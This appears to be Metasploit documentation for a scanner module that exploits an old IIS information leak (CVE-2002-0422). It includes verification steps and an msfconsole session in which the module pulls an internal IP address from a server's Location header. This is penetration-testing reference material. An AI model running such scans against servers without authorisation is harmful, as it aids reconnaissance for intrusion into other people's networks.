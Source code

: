 ## Vulnerable Application

IIS, under various conditions, may respond to a request for `/`, `/images`, or `/default.htm` with `HTTP/1.0`
with a 300 HTTP response and a location header that contains an internal (192.x.x.x, 10.x.x.x, or 172.x.x.x)
IP address. It may also respond to a 'PROPFIND' request with a blank host header that contains the internal
IP address in then body

## Verification Steps

  1. Install a vulnerable version of IIS with at least one IP address on a private LAN
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/iis_internal_ip```
  4. Do: ```set RHOSTS [ip]```
  5. Do: ```run```
  6. You should find the internal IP

## Options

## Scenarios

### IIS with SSL

```
msf > use auxiliary/scanner/http/iis_internal_ip
msf auxiliary(scanner/http/iis_internal_ip) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf auxiliary(scanner/http/iis_internal_ip) > set rport 443
rport => 443
msf auxiliary(scanner/http/iis_internal_ip) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf auxiliary(scanner/http/iis_internal_ip) > set verbose true
verbose => true
rmsf auxiliary(scanner/http/iis_internal_ip) > run

[*] 2.2.2.2:443     - Requesting GET / HTTP/1.0
[+] Location Header: https://10.1.1.20/home
[+] Result for 2.2.2.2 found Internal IP:  10.1.1.20
[*] 2.2.2.2:443     - Requesting GET /images HTTP/1.0
[*] 2.2.2.2:443     - Requesting GET /default.htm HTTP/1.0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
## References
- https://nvd.nist.gov/vuln/detail/CVE-2002-0422
- http://www.securityfocus.com/bid/1499
- https://www.exploit-db.com/exploits/20096
- https://support.microsoft.com/en-us/help/218180/internet-information-server-returns-ip-address-in-http-header-content
- https://support.microsoft.com/en-us/help/967342/fix-the-internal-ip-address-of-an-iis-7-0-server-is-revealed-if-an-htt
- https://techcommunity.microsoft.com/t5/iis-support-blog/iis-web-servers-running-in-windows-azure-may-reveal-their/ba-p/826500
